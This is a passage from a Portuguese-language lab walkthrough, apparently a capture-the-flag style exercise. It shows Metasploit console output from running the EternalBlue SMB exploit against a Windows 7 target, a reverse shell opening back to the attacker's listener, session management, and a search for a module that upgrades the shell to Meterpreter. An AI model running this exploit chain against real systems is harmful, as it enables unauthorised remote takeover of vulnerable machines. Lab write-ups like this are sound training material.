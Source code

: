 ```bash
[*] Command shell session 1 opened (10.18.20.23:4444 -> 10.10.79.113:49215) at 2023-02-13 20:58:43 -0300
[+] 10.10.79.113:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.79.113:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.79.113:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=


Shell Banner:
Microsoft Windows [Version 6.1.7601]
-----


C:\Windows\system32>

```

Como podemos ver acima, o exploit foi executado com sucesso e conseguimos obter uma shell reversa na máquina alvo.

<div class="page"/>

### **<a id="8">5. Confirm that the exploit has run correctly.</a>**

Para confirmar que o exploit foi executado com sucesso, podemos utilizar o comando `sessions` para listar as sessões ativas. Mas antes temos que deixar a sessão atual em background utilizando o comando `CTRL + Z`.

```bash
C:\Windows\system32>^Z
Background session 1? [y/N]  y
msf6 exploit(windows/smb/ms17_010_eternalblue) > sessions

Active sessions
===============

  Id  Name  Type               Information                                               Connection
  --  ----  ----               -----------                                               ----------
  1         shell x64/windows  Shell Banner: Microsoft Windows [Version 6.1.7601] -----  10.18.20.23:4444 -> 10.10.79.113:49215 (10.10.79.113)

```

```bash

msf6 exploit(windows/smb/ms17_010_eternalblue) > search shell_to_meter

Matching Modules
================

   #  Name                                    Disclosure Date  Rank    Check  Description
   -  ----                                    ---------------  ----    -----  -----------
   0  post/multi/manage/shell_to_meterpreter                   normal  No     Shell to Meterpreter Upgrade


Interact with a module by name or index. For example info 0, use 0 or use post/multi/manage/shell_to_meterpreter

```
